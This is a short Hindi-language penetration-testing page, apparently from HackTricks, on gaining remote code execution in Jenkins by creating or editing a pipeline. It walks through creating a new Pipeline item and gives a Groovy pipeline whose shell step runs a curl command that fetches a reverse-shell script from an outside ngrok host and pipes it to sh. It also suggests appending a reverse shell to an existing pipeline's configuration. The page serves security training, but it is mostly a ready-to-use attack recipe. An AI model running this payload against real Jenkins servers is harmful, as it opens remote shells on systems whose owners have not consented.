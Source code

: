 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## एक नया पाइपलाइन बनाना

"New Item" में (जो `/view/all/newJob` पर उपलब्ध है) **Pipeline** का चयन करें:

![](<../../images/image (235).png>)

**Pipeline सेक्शन** में **reverse shell** लिखें:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
अंत में **Save** पर क्लिक करें, और **Build Now** पर क्लिक करें और पाइपलाइन निष्पादित होगी:

![](<../../images/image (228).png>)

## पाइपलाइन को संशोधित करना

यदि आप किसी कॉन्फ़िगर की गई पाइपलाइन की कॉन्फ़िगरेशन फ़ाइल तक पहुँच सकते हैं, तो आप बस **अपना रिवर्स शेल जोड़कर इसे संशोधित** कर सकते हैं और फिर इसे निष्पादित करें या जब तक यह निष्पादित न हो जाए तब तक प्रतीक्षा करें।

{{#include ../../banners/hacktricks-training.md}}
